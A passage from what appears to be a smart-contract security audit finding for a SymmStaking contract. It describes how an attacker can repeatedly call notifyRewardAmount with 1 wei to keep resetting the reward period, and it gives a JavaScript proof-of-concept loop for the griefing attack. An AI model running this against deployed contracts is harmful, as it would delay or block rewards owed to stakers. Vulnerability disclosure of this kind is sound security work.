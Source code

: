 3. Repeat the Process:
   - The attacker repeatedly calls `notifyRewardAmount` with the trivial amount before the current reward period expires.
   - Each call resets `state.periodFinish` further into the future.
   - Result: The original 7-day period never concludes; stakers never reach the point where the reward distribution for the 100,000 tokens is completed.

4. Observations:
   - The reward period is effectively extended indefinitely as long as the attacker continues to spam these minimal notifications.
   - The admin’s intended reward schedule is subverted, causing delays in reward accrual and distribution to stakers.

---

Simulated Code Snippet (Pseudocode)


```javascript
// Assume `staking` is an instance of the deployed SymmStaking contract
// and `attacker` is a signer representing the malicious actor.

// Step 1: Admin notifies a large reward
await staking.connect(admin).notifyRewardAmount(
  [REWARD_TOKEN],
  [ethers.utils.parseEther("100000")]  // 100,000 tokens (assuming 18 decimals)
);

// Capture the initial period finish
let initialPeriodFinish = await staking.rewardState(REWARD_TOKEN).then(state => state.periodFinish);
console.log("Initial period finish:", initialPeriodFinish.toString());

// Step 2: Attacker repeatedly notifies trivial rewards
for (let i = 0; i < 10; i++) {
  // Attacker calls with 1 wei reward amount
  await staking.connect(attacker).notifyRewardAmount(
    [REWARD_TOKEN],
    [1]  // 1 wei
  );
  // Fetch and print the updated period finish after each call
  let updatedPeriodFinish = await staking.rewardState(REWARD_TOKEN).then(state => state.periodFinish);
  console.log(`Updated period finish after call ${i + 1}:`, updatedPeriodFinish.toString());
  
  // Wait a short time (simulate attacker spamming)
  await delay(5000); // delay 5 seconds (pseudocode, implement as needed)
}
```

Expected Outcome:
- Each time the attacker calls the function, the printed `periodFinish` value resets to a new timestamp equal to the current block timestamp plus the fixed duration (e.g., 7 days).
- This confirms that the attacker’s calls are delaying the intended reward distribution.
